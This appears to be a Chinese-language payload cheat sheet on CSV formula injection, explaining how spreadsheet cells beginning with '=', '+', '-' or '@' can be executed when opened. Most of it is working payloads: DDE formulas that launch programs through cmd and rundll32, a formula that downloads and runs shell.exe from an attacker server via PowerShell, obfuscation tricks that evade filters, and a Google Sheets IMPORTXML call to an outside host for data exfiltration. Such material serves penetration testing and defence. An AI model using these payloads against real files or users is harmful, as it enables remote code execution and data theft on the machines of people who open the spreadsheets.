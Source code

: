 # CSV 注入

> 许多网络应用程序允许用户下载内容，例如发票模板或用户设置到CSV文件中。许多用户选择在Excel、Libre Office或Open Office中打开CSV文件。当Web应用程序未能正确验证CSV文件的内容时，可能会导致单元格或多个单元格的内容被执行。

## 概要

* [方法论](#方法论)
    * [Google Sheets](#google-sheets)
* [参考文献](#参考文献)

## 方法论

CSV 注入，也称为公式注入，是一种安全漏洞，发生在不受信任的输入被包含在CSV文件中时。任何公式都可以以以下字符开头：

```powershell
=
+
–
@
```

使用动态数据交换的基本攻击。

* 启动一个计算器

    ```powershell
    DDE ("cmd";"/C calc";"!A0")A0
    @SUM(1+1)*cmd|' /C calc'!A0
    =2+5+cmd|' /C calc'!A0
    =cmd|' /C calc'!'A1'
    ```

* PowerShell 下载和执行

    ```powershell
    =cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
    ```

* 前缀混淆和命令链

    ```powershell
    =AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
    =cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
    =         cmd|'/c calc.exe'!A
    ```

* 使用rundll32代替cmd

    ```powershell
    =rundll32|'URL.dll,OpenURL calc.exe'!A
    =rundll321234567890abcdefghijklmnopqrstuvwxyz|'URL.dll,OpenURL calc.exe'!A
    ```

* 使用空字符绕过字典过滤器。由于它们不是空格，在执行时不被忽略。

    ```powershell
    =    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
    ```

上述有效负载的技术细节：

* `cmd` 是服务器可以响应客户端访问服务器时的名称
* `/C` calc 是文件名，在本例中是calc（即calc.exe）
* `!A0` 是指定服务器响应客户端请求的数据单位的项目名称

### Google Sheets

Google Sheets 支持一些额外的公式，能够获取远程URL：

* [IMPORTXML](https://support.google.com/docs/answer/3093342?hl=en)(url, xpath_query, locale)
* [IMPORTRANGE](https://support.google.com/docs/answer/3093340)(spreadsheet_url, range_string)
* [IMPORTHTML](https://support.google.com/docs/answer/3093339)(url, query, index)
* [IMPORTFEED](https://support.google.com/docs/answer/3093337)(url, [query], [headers], [num_items])
* [IMPORTDATA](https://support.google.com/docs/answer/3093335)(url)

因此，可以测试盲式公式注入或潜在的数据外泄：

```c
=IMPORTXML("http://burp.collaborator.net/csv", "//a/@href")
```

注意：系统会警告用户一个公式正在尝试联系外部资源，并要求授权。

## 参考文献

* [CSV Excel 宏注入 - Timo Goosen, Albinowax - 2022年6月21日](https://owasp.org/www-community/attacks/CSV_Injection)
* [CSV Excel 公式注入 - Google Bug Hunter University - 2022年5月22日](https://bughunters.google.com/learn/invalid-reports/google-products/4965108570390528/csv-formula-injection)
* [CSV 注入 - 保护 CSV 文件指南 - Akansha Kesharwani - 2017年11月30日](https://payatu.com/csv-injection-basic-to-exploit/)
* [从CSV到Meterpreter - Adam Chester - 2015年11月5日](https://blog.xpnsec.com/from-csv-to-meterpreter/)
* [CSV 注入的荒谬低估危险 - George Mauer - 2017年10月7日](http://georgemauer.net/2017/10/07/csv-injection.html)
* [三种新的DDE混淆方法 - ReversingLabs - 2018年9月24日](https://blog.reversinglabs.com/blog/cvs-dde-exploits-and-obfuscation)
* [你的Excel电子表格不安全！这是如何击败CSV注入 - we45 - 2020年10月5日](https://www.we45.com/post/your-excel-sheets-are-not-safe-heres-how-to-beat-csv-injection)